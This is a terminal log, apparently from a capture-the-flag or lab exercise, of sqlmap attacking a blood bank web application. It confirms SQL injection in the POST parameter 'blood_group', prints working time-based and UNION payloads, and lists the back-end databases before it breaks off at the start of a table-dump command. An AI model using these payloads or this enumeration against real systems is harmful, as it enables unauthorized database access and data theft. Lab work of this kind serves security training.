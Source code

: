 ```
[22:12:45] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[22:12:46] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[22:12:48] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[22:12:49] [INFO] testing 'Generic inline queries'
[22:12:49] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[22:12:49] [WARNING] time-based comparison requires larger statistical model, please wait. (done)                        
[22:12:50] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[22:12:51] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[22:12:52] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[22:13:04] [INFO] POST parameter 'blood_group' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[22:13:11] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[22:13:11] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[22:13:13] [WARNING] reflective value(s) found and filtering out
[22:13:16] [INFO] target URL appears to be UNION injectable with 8 columns
[22:13:17] [INFO] POST parameter 'blood_group' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
POST parameter 'blood_group' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 70 HTTP(s) requests:
---
Parameter: blood_group (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: blood_group=A+' AND (SELECT 2957 FROM (SELECT(SLEEP(5)))lpcx) AND 'MmpH'='MmpH

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: blood_group=A+' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x71787a7871,0x56626a6a7256627368576e504570586a707552505a51447064644a656a6170594762497163625a66,0x7176707671),NULL,NULL-- -
---
[22:13:28] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.10.3
back-end DBMS: MySQL >= 5.0.12
[22:13:29] [INFO] fetching database names
available databases [6]:
[*] blood
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] test

[22:13:30] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.60.177'

[*] ending @ 22:13:30 /2023-02-04/

┌──(kali㉿kali)-[~/nappy/brutus]
└─$ sqlmap -r req.txt -p blood_group -D blood --tables
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.6.12#stable}
|_ -| . [)]     | .'| . |
```